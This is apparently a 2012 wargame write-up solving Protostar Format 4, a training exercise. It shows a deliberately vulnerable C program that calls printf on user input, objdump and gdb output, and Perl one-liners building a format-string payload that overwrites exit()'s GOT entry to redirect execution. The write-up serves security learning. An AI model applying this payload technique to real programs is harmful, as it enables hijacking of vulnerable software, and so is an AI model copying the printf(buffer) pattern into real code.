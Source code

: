 ```yaml
---
title: "Exploit Exercises - Protostar Format 4"
date: "2012-02-02T05:15:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-4.html"
---
```


Next up is the last challenge in the Format String series, [Format 4](http://exploit-exercises.com/protostar/format4). 

<!-- more -->

It starts out with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
 printf("code execution redirected! you win\n");
 _exit(1);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printf(buffer);

 exit(1); 
}

int main(int argc, char **argv)
{
 vuln();
}
```

What initially caught my eye was the fact that there was a call to "exit()" as well as "_exit()".  This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on "exit()".  When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions.  The first time it runs that function, it will cache the memory address in the GOT, so that it doesn't have to ask libc, or the corresponding library each time.  If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.  In this case, our victim is "exit()". 

For this exploit to work, we will need a few things: 

* Memory address of "exit()" in the GOT, which we want to overwrite
* Memory address of "hello()", which will be the data we overwrite the GOT with
* Stack offset for the format string
* The amount of characters to buffer for each byte-pair

Getting the memory address of the "exit()" method in the GOT is fairly easy:

```
user@protostar:/opt/protostar/bin$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Getting the memory address of "hello()" is quite similar: 

```
user@protostar:/opt/protostar/bin$ objdump -t format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

To get the stack offset of the format string, it's quite simple.  We've done it in prior challenges.  Let's just spam "%x":   

```
user@protostar:/opt/protostar/bin$ echo AAAAAAAA`perl -e 'print "%x."x15'` | ./format4
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

From this, we can now see "41414141" in the 4th stack variable, so our offset is 4. 

Using that offset of 4, we can now generate a format string using Direct Parameter Access, which I've only slightly mentioned in previous posts. I chose to dump the string to a file, because it made it really easy to use with gdb. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /home/user/format4_dpa
```

Next, if we run it in gdb, we can see how many characters are being written to "printf" initially, and adjust our buffering to compensate.  Start up the gdb debugger, and disassemble the "vuln" function.  We do this, so we can set a breakpoint right before "exit()" gets called. 

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) b *vuln+61
Breakpoint 1 at 0x804850f: file format4/format4.c, line 22.
```

After the breakpoint has been set, go ahead and run the program, piping in the formatstring from the file we created earlier: 

```
(gdb) run < /home/user/format4_dpa
Starting program: /opt/protostar/bin/format4 < /home/user/format4_dpa

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22      format4/format4.c: No such file or directory.
        in format4/format4.c
```

What we need to do, is examine the address of the GOT space for the "exit()" method, and now see what was set. 

```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```

Good, so far we know: <ul><li>GOT address to overwrite: 0x8049724</li><li>Value to overwrite it with: 0x080484b4</li></ul>
We can use this data to now calculate all of the individual buffer sizes needed to get the right number of characters output by "printf".  This little trick was learned from reading [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />, which I highly recommend.  Without this book, I would have been stuck on these format string levels for a lot longer than I was. I just needed a little bump, and it gave it to me. 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0xb4 - 0x00000010
$1 = 164
(gdb) p 0x84 - 0xb4
$2 = -48
(gdb) p 0x184 - 0xb4
$3 = 208
(gdb) p 0x04 - 0x84
$4 = -128
(gdb) p 0x104 - 0x84
$5 = 128
(gdb) p 0x08 - 0x04
$6 = 4
(gdb) p 0x108 - 0x04
$7 = 260
```

To explain this, you take the address you want to overwrite with (0x080484b4 in our case) and split it up into the byte pairs in little endian order (b4, 84, 08, 08).  Starting with the first one (b4), you subtract the base number we saw get written before (0x00000010), and that will give us the first buffer length of 164.  For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4).  In this case, we went negative, so we add a "1" in the most significant digit of the first number, making ours "184".  We then subtract again, and get 208.  You do this for all 4 pairs, and you get your offsets of 164, 208, 128, 260. 

Now that we have our buffer sizes, let's construct the format string with them: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' > /home/user/format4_dpa
```

Lastly, we run the format4 program with the format4_dpa file as the input: 

```
user@protostar:/opt/protostar/bin$ ./format4 < /home/user/format4_dpa           $%&'                                                              

                                                                                                   200                                            

                                                                                                                                                  

          b7fd8420                                                                                                                        

bffff624                                                                                                                                          

                                                                                                                   8049724code execution 

redirected! you win
```

And that's a win! 

I learned a lot of things in this section of the Protostar challenge.  I had almost no experience with format string exploitation, but now I'm feeling pretty comfortable with them.  We'll have to see about the [Final 1](http://exploit-exercises.com/protostar/final1) level.
